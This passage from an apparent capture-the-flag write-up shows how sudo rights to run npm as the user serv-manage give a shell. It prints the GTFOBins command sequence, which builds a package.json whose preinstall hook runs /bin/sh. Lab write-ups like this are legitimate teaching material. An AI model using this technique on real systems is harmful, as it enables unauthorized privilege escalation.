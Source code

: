 Nice, it seems that we can run `npm` as the another user **serv-manage**. We also don't need to know our password to do so.

If we look at GTFOBins (https://gtfobins.github.io/gtfobins/npm/), we find the following exploit:

<img style="float: left;" src="screenshots/screenshot16.png">

Thus, we can run the following commands to open up a shell as **serv-manage**:

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
chmod 777 $TF
sudo -u serv-manage npm -C $TF --unsafe-perm i
```

*(Note: We need to make the temp directory created accessible by everyone, which is why I did `chmod 777 $TF`. The exploit does not do this as it assumes we are sudoing as root, which already has the max privileges and can access any directory. Here, we are sudoing as a normal user, serv-manage)*

<img style="float: left;" src="screenshots/screenshot17.png">

We're now **serv-manage**!

The user flag can be found in the **home** directory of serv-manage:

<img style="float: left;" src="screenshots/screenshot18.png">

---
